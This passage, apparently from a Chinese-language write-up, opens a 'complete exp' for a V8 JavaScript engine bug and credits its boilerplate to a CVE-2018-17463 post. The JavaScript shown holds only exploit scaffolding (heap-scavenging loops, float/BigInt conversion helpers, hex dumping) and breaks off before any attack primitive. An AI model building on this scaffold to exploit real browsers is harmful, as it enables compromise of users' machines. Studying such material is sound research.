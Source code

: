 ## exp

完整的 exp 如下，前面的板子来自[这里](http://p4nda.top/2019/06/11/%C2%96CVE-2018-17463/)。

```bash
function gc() {
  /*fill-up the 1MB semi-space page, force V8 to scavenge NewSpace.*/
  for (var i = 0; i < ((1024 * 1024) / 0x10); i++) {
    var a = new String();
  }
}

function give_me_a_clean_newspace() {
  /*force V8 to scavenge NewSpace twice to get a clean NewSpace.*/
  gc()
  gc()
}

let floatView = new Float64Array(1);
let uint64View = new BigUint64Array(floatView.buffer);

Number.prototype.toBigInt = function toBigInt() {
  floatView[0] = this;
  return uint64View[0];
};

BigInt.prototype.toNumber = function toNumber() {
  uint64View[0] = this;
  return floatView[0];
};

function hex(b) {
  return ('0' + b.toString(16)).substr(-2);
}

// Return the hexadecimal representation of the given byte array.
function hexlify(bytes) {
  var res = [];
  for (var i = 0; i < bytes.length; i++)
    res.push(hex(bytes[i]));
  return res.join('');
}

// Return the binary data represented by the given hexdecimal string.
function unhexlify(hexstr) {
  if (hexstr.length % 2 == 1)
    throw new TypeError("Invalid hex string");
  var bytes = new Uint8Array(hexstr.length / 2);
  for (var i = 0; i < hexstr.length; i += 2)
    bytes[i / 2] = parseInt(hexstr.substr(i, 2), 16);
  return bytes;
}

function hexdump(data) {
  if (typeof data.BYTES_PER_ELEMENT !== 'undefined')
    data = Array.from(data);
  var lines = [];
  for (var i = 0; i < data.length; i += 16) {
    var chunk = data.slice(i, i + 16);
    var parts = chunk.map(hex);
    if (parts.length > 8)
      parts.splice(8, 0, ' ');
    lines.push(parts.join(' '));
  }
```